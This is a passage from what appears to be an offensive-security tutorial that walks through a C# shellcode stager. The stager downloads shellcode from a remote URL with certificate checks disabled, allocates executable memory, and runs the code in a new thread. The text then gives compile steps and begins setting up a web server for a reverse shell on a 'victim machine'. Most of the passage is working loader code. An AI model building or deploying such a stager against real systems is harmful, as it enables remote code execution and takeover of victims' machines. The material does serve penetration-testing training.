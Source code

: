 ```csharp
WebClient wc = new WebClient();
ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

byte[] shellcode = wc.DownloadData(url);
```

Once our shellcode is downloaded and available in the **`shellcode`** variable, we'll need to copy it into executable memory before actually running it. We use **`VirtualAlloc()`** to request a memory block from the operating system. Notice that we request enough memory to allocate **`shellcode.Length`** bytes, and set the **`PAGE_EXECUTE_READWRITE`** flag, making the assigned memory executable, readable and writable. Once our executable memory block is reserved and assigned to the **`codeAddr`** variable, we use **`Marshal.Copy()`** to copy the contents of the **`shellcode`** variable in the **`codeAddr`** variable.

```csharp
UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);
```

Now that we have a copy of the shellcode allocated in a block of executable memory, we use the **`CreateThread()`** function to spawn a new thread on the current process that will execute our shellcode. The third parameter passed to CreateThread points to **`codeAddr`**, where our shellcode is stored, so that when the thread starts, it runs the contents of our shellcode as if it were a regular function. The fifth parameter is set to 0, meaning the thread will start immediately.

Once the thread has been created, we will call the **`WaitForSingleObject()`** function to instruct our current program that it has to wait for the thread execution to finish before continuing. This prevents our program from closing before the shellcode thread gets a chance to execute:

```csharp
IntPtr threadHandle = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr parameter = IntPtr.Zero;
threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```

To compile the code, we suggest copying it into a Windows machine as a file called staged-payload.cs and compiling it with the following command:

PowerShell

```
PS C:\> csc staged-payload.cs
```

# Using our stager to run a reverse shell

Once our payload is compiled, we will need to set up a web server to host the final shellcode. Remember that our stager will connect to this server to retrieve the shellcode and execute it in the victim machine in-memory. Let's start by generating a shellcode (the name of the file needs to match the URL in our stager):
